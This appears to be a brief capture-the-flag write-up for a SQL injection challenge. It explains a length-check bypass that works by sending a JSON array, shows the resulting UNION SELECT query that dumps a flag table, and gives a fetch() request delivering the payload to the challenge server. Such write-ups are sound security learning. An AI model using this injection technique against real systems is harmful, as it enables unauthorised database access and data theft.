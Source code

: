 Since it is interpreted as JSON and the len is being looked at, it is bypassed with an array. The rest is just normal SQLi.

```python
code = [') UNION SELECT flag FROM flag; --',1]
cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
# SELECT name FROM country WHERE code=UPPER('[') UNION SELECT flag FROM flag; --', 1]')
```

```js
fetch("http://34.170.146.252:24059/api/search", {
  "headers": {
    "accept": "*/*",
    "accept-language": "ja,en-US;q=0.9,en;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://34.170.146.252:24059/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"code\":[\") UNION SELECT flag FROM flag; --\",1]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
